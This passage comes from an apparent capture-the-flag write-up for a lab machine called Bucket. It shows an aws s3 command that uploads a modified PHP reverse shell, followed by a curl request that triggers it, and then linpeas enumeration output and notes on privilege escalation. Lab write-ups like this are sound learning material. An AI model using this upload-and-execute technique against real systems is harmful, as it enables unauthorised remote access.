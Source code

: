 To get a reverse shell, replaced the `exploit.php` by [pentestmonkey/php-reverse-shell (github.com)](https://github.com/pentestmonkey/php-reverse-shell) that after modifying it starts automatically to the listener previously defined, without the need of parameters in the payload, which resulted in success after a few attempts.

```bash
aws s3 --endpoint-url http://s3.bucket.htb --profile bucket.htb cp ./exploit.php s3://adserver/ && curl -L http://bucket.htb/exploit.php
```

## User flag

Now with a reverse shell to the machine, ran `linpeas.sh` to make it easier the enumeration, where the following points were identified:

- Local user `roy` has console access and, enumerating his home directory found the file `user.txt` and folder `project`, access to both denied using `www-data` credentials.

  - This user has no running processes that could allow us to hijack them so we would need to obtain his credentials to proceed with this machine.

- Other services are running in this box, listening in ports 4566, 8000, and 38443, which could be used to escalate privileges later.

```plaintext
[+] Active Ports                                                                                         
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                               
Active Internet connections (servers and established)                                                     
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name         
tcp        0      0 127.0.0.1:38443         0.0.0.0:*               LISTEN      -                        
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                         
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN      -                         
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                         
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                     
```

- This box has also containers in execution (`ctr`, `runc`), probably from localstack, being also a possibility when checking for privesc paths.

- There's a directory `/var/www/bucket-app` that could be used by one of the apps previously identified, but also doesn't allow us to read it with `www-data` credentials.

From the points discussed, what called more attention to me was the other services, so started by checking apache configurations (`/etc/apache2/sites-enabled`) where we had the file `000-default.conf` listed below, but nothing about 38443, but was able to get insights about 4566 and 8000, which published the content from `/var/www/bucket-app` folder.
